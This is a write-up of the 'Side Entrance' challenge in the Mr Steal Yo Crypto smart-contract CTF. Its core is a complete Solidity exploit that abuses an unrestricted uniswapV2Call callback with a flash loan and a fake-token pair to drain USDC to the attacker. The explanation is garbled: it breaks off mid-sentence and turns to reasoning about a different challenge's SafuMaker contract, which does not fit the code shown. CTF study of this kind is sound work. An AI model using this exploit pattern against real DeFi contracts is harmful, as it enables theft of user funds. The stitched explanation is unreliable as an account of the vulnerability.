 ```yaml
---
title: "Mr Steal Yo Crypto — Side Entrance"
date: 2023-07-22
draft: false
description: "CTF - 14"
tags: ["CTF"]
series: ["CTF"]
series_order: 14
topics: ["CTF"]
showAuthor: false
showAuthorsBadges : false
---
```


This is the #14 challenge of [Mr Steal Yo Crypto](https://mrstealyocrypto.xyz/index.html). I will try to explain how to find the vulnerability.

> A set of challenges to learn offensive security of smart contracts. Featuring interesting challenges loosely (or directly) inspired by real-world exploits.
> Created by [@0xToshii](https://twitter.com/0xToshii)

I used the foundry version for this CTF: [mr-steal-yo-crypto-ctf-foundry](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement)

![Mr Steal Yo Crypto](https://cdn-images-1.medium.com/max/800/1*67w9ffBxLP4AMvoxHowZ2w.jpeg)

## Side Entrance

There’s a CallOptions contract which allows users to create covered wETH-USDC call options.

> They’ve even provided functionality that allows users to execute their purchased options without any capital by utilizing Uniswap flash loans.
> Your task is to steal at least 90k USDC. You start with no funds.

See the contracts:
- [Side Entrance Contracts](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/tree/implement/src/side-entrance)
- [Complete the challenge](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/14-side-entrance.sol)

## Review of the contract

### CallOPtions.sol

I’m writing this article after the challenge #17. I want to retry the reverse method. We will start from where USDC can be transferred to us and then go back to the origin.
Uhhhh, I don’t see where it is possible. The protocol sends USDC to the owner of the option when someone buys an option at [L145](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/side-entrance/CallOptions.sol#L145). He sends also USDC to the owner when the buyer wants to execute the option. For now, we have no possibilities.

## Exploit the vulnerability

The vulnerability is that anyone can call `uniswapV2Call()`. Inside the function, we _decode_ the data that will be used for <br> I took some time to exploit this contract, it was the first time that I was confronted with a “logical” vulnerability instead of a basic attack vector.

At the beginning, I checked if an attack vector that I know could be useful. However, I didn’t find anything except that with `_convert()` we are swapping all the balance of a token into SAFU.

So I started to open my mind, like
_Why the vulnerability would be only inside the protocol?_
As we can see in the test file, we are using uniswapV2, and the admin user is sending 1% of LP to the safuMaker contract. Maybe we could do something with this LP? At this moment an idea popped out of my mind. 
We know that the contract is swapping any token into SAFU token. Why not creating a pair LP(USDC-SAFU)-SAFU then:
1. Send some LP of the new pair to safuMaker
2. Call the `convert(address(LP(USDC-SAFU)), address(SAFU))` function so that safuMaker burns the LP(LP(USDC-SAFU)-SAFU) and then swaps LP(USDC-SAFU) to SAFU.
3. Then we can withdraw our liquidity and get more LP(USDC-SAFU) compared to the beginning.
4. Withdraw liquidity by burning LP(USDC-SAFU) and obtain more USDC and SAFU from the beginning.

To be sure that is possible, I checked the `_convert()` function. The idea seems possible because at [L97](https://github.com/0xToshii/mr-steal-yo-crypto-ctf-foundry/blob/implement/src/free-lunch/SafuMakerV2.sol#L97). The safuMaker contract says that he wants to sell all the balance of the token. So in our case, he wants to sell all his balance of LP(USDC-SAFU). This is pretty cool because the contract already has a big amount of LP.

Here is my solution:
```solidity
contract Exploit {

    address owner;
    Token fakeToken;
    Token usdc;
    IUniswapV2Factory uniFactory;
    IUniswapV2Router02 uniRouter;
    IUniswapV2Pair usdcFakeTokenPair;
    IUniswapV2Pair usdcDaiPair;
    CallOptions optionsContract;

    constructor(address attacker, address _optionsContract, address _factory, address _router, address _usdc, address _usdcDaiPair) {
        owner = attacker;
        optionsContract = CallOptions(_optionsContract);
        fakeToken = new Token('DAI ', 'DAI ');
        fakeToken.mint(address(this), 1_000_000e18);
        uniRouter = IUniswapV2Router02(_router);
        uniFactory = IUniswapV2Factory(_factory);
        usdcDaiPair = IUniswapV2Pair(_usdcDaiPair);
        usdc = Token(_usdc);
        usdc.approve(address(uniRouter), type(uint).max);
        fakeToken.approve(address(uniRouter), type(uint).max);
    }

    function uniswapV2Call(address _address, uint amount0Out, uint amount1Out, bytes memory data) external {
        console.log("balance usdc of exploit : ", usdc.balanceOf(address(this)));
        uniRouter.addLiquidity(address(usdc), address(fakeToken), usdc.balanceOf(address(this)), fakeToken.balanceOf(address(this)), 0, 0, address(this), block.timestamp);
        usdcFakeTokenPair = IUniswapV2Pair(uniFactory.getPair(address(usdc), address(fakeToken)));

        address to = abi.decode(data, (address));
        bytes32 optionId = optionsContract.getLatestOptionId();
        uint256 interestAmount = usdc.balanceOf(address(to));

        bytes memory _calldata = abi.encode(optionId, to, interestAmount);
        usdcFakeTokenPair.swap(2_100e18, 0, address(optionsContract), _calldata);

        console.log("balance usdc of target : ", usdc.balanceOf(address(owner)));
        console.log("balance usdc of usdcFakeTokenPair : ", usdc.balanceOf(address(usdcFakeTokenPair)));
        usdcFakeTokenPair.approve(address(uniRouter), type(uint).max);
        uniRouter.removeLiquidity(address(usdc), address(fakeToken), usdcFakeTokenPair.balanceOf(address(this))-1, 0, 0, address(this), block.timestamp);

        console.log("balance usdc of exploit : ", usdc.balanceOf(address(this)));
        console.log("amount to repay : ", (amount0Out * 103 / 100) + 1); // yeah the premium is a bit too high

        usdc.transfer(address(usdcDaiPair), (amount0Out * 103 / 100) + 1);
        usdc.transfer(owner, usdc.balanceOf(address(this)));
        console.log("balance usdc of attacker : ", usdc.balanceOf(address(owner)));
    }

    function pwn(address target) external {
        bytes memory _calldata = abi.encode(target);
        usdcDaiPair.swap(3_000e18, 0, address(this), _calldata);
    }
}
```

You can check my test file [here](https://github.com/gp-ngmi/mr-steal-yo-crypto-ctf-foundry/blob/implement/test/14-side-entrance.sol).

I would not have been able to pass the challenge without the hint.
This challenge reminds me how it is essential to decide who is able to call a function.

## Acknowledgement

Thank you [https://stermi.xyz/](https://stermi.xyz/) for inspiring me to write articles on CTF ^^.